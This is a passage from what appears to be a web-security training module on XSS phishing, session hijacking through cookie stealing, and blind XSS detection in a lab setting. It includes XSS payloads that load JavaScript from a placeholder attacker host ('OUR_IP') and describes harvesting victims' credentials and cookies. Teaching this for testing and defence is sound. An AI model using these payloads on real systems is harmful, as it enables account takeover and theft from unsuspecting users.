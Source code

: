 With everything in place, we can send the final phishing URL with the encoded payload to our victim. Once they open the URL and log in, we will receive their credentials, and they will be redirected back to the normal image viewer — unaware of what happened.

## Session Hijacking

Modern web applications use cookies to maintain a user's session across visits. If an attacker manages to steal these cookies, they can hijack the session and impersonate the victim without needing their login credentials.

If we can run JavaScript on the victim's browser, we can potentially send their cookies to our own server using a **Session Hijacking** technique, also known as **Cookie Stealing**.

---

### Blind XSS Detection

Blind XSS occurs when an injected payload executes on a page we do **not** have access to (e.g., an admin panel). We can’t directly observe the result, but we can detect execution by making our payload send an HTTP request back to us.

Common places for Blind XSS:
- Contact forms
- User details/reviews
- Support tickets
- HTTP headers like `User-Agent`

We begin testing by submitting a payload via a user registration form:
```
http://SERVER_IP:PORT/hijacking/index.php
```

After submitting the form, we receive a message saying:
> Thank you for registering. An Admin will review your registration request.

We can't see the payload outcome—but we **can** detect execution if our script makes a request to our server.

This gives rise to two questions:
1. **Which field is vulnerable?**
2. **Which payload works?**

---

### Loading a Remote Script

Instead of placing the whole payload inline, we can load JavaScript from a remote server:

```html
<script src="http://OUR_IP/script.js"></script>
```

To identify which field triggered the request, we name the script file after the field:
```html
<script src="http://OUR_IP/username"></script>
```
